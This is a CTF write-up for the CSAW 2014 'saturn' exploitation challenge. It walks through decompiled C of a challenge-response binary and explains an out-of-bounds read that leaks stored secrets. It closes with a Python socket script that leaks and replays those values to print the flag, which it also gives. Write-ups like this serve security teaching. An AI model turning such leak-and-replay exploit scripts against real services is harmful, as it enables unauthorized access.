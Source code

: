 ```yaml
---
title: CSAW CTF 2014 -- Exploitation 400 saturn
layout: single
comments: true
share: true
related: true
author_profile: true
permalink: "/:title/"
tags:
- CTF
- CSAW
- Python
- Pwnable
categories:
- write-ups
date: '2014-09-25 09:35:00 +0000'
---
```


First the challenge gave us a binary file (ELF for Intel-386). But we can't execute it, cause we don't have the required shared library **"libchallengeresponse.so"**. So we will have to launch IDA Pro to see what's going on within the program.
<!-- more -->

After analyzing the program ( praise the powerful F5 key! ) , I collected the following information:

# Main function

``` c
int main()
{
  puts("CSAW ChallengeResponseAuthenticationProtocol Flag Storage");
  
  for ( i = 0; i <= 0; ++i )
  {
    v0 = read_one_byte();
    v3 = v0;
    v1 = v0 & 0xF0;
    switch ( v1 )
    {
      case 160: //0xA0
        functionA(v3);
        i -= 2;
        break;
      case 224: //0xE0
        functionB(v3);
        i -= 2;
        break;
      case 128: //0x80
        functionC();
        break;
    }
  }
  return 0;
}
```

As we can see, the main function will read a byte from the user input, and do the `&` operation. `v1` will hold the result, and a `switch-case` condition will decide which function to run next, base on `v1`'s value. 

So basically, we can summarize that the main function will **only accept 3 kinds of input**: `0xA0 ~ 0xAF`, `0xE0 ~ 0xEF` and `0x80 ~ 0x8F`. Now let's take a good look at those functions.

# functionA

```c
functionA (char a1)
{
	int v2; 
	v2 = *((int *)bufferA + (a1 & 0xF));

	print_four_char_which_store_in_v2();
}
```

In `functionA`, we found a `bufferA`, which start from a specific address. `functionA` will take the original input (a byte value) as the parameter, extract its last 4 bit, take it as the offset from `bufferA` and calculate the position's address. Then, `v2` will store a 4 bytes value, start from the new address in `bufferA`. At last the function will print out 4 char (= 4 byte) which was stored in `v2`.

Note that if the offset is `0x1`, the new address will start from `bufferA + 4`, if the offset is `0x2`, the new address will start from `bufferA + 8`...and so on (basic knowledge of pointer).

# functionB

```c
functionB (char a1)
{
	offser = a1 & 0xF
  
	v4 = *((int *)bufferB + offset);
	read_four_byte_from_input(v5);
  
	if ( v5 != v4 )
  		exit(0);
  
	bufferC[offset] = 1;
}
```
In `functionB`, we found `bufferB` and `bufferC` , both start from a specific address. Like `functionA`, `functionB` also take the original input (a byte value) as the parameter, extract its last 4 bit and take it as a `offset`. But there's a slight difference. In `functionB`, `v4` will store a 4 bytes value, start from the new position in `bufferB`, while another variable `v5` also read a 4 bytes value from the user input and hold its value. Then, the function will compare these two value, if they are the same, it will store value `1` in bufferC, the position is also base on the `offset`'s value.

So, if the user input is `0xE4`, `offset` will store the value `4`, `v4` will store the value `bufferB + 16` ~ `bufferB + 20`, `v5` will read another 4 bytes from user input. If `v4 == v5`, then `bufferC[4]` will store the value `1`

# functionC

```c
functionC()
{
	v6 = 1;
	
	for( i = 0 ; i <= 7 ; i++ )
 	{
 		v6 *= bufferC[i]
	}
  
	if (v6 == 0)
  		exit(0);	
	else
  		print_flag()
}
```
`functionC` is quite simple. It just calculate the factorial of all the values stored in `bufferC`. If the result isn't `0`, it will print out the flag, or else it will terminate the program. 

So, to sum up all the functions mentioned previously and how are we going to exploit:

1. use `functionA` to get all the values stored in `bufferB` (use IDA pro to check the offset between `bufferA` and `bufferB`, the offset is `32` (`0x20`) )
2. use `functionB` to overwrite the value in `bufferC`, in order to pass the checking function `functionC`
3. use `functionC` to get the flag

But here is the tricky part: **the values stored in** `bufferB` **are not fixed**. 
So, I finally decided to write a python script to solve the challenge. 

```python
from socket import *
from struct import *
 
sock = socket(AF_INET, SOCK_STREAM) #create socket (IP, TCP)
sock.connect(("54.85.89.65" , 8888))

print sock.recv(1024) #recv the title

"""
arr: inputs for getting bufferB's value
arr2: inputs for modifying bufferC's value
int_send: for storing the content of bufferB
"""

arr = ['\xA8', '\xA9','\xAA','\xAB','\xAC','\xAD','\xAE','\xAF']
arr2 = ['\xE0', '\xE1','\xE2','\xE3','\xE4','\xE5','\xE6','\xE7']
int_send = []

for c in arr:
	sock.send(c)
	data = sock.recv(4) #recv 4 bytes
	d = unpack("<I", data)[0] #unpack as an unsigned integer, little-endian format 
	int_send.append(d) # store the bufferB's value

send_cnt = 0

for i in int_send:
	sock.send(arr2[send_cnt]);
	sock.send(pack("<I",(i & 0xFFFFFFFF))) # force format to 32bit
	send_cnt += 1

sock.send('\x80') #get flag
print sock.recv(1024) #print flag
sock.close()  

```

the flag: `flag{greetings_to_pure_digital}`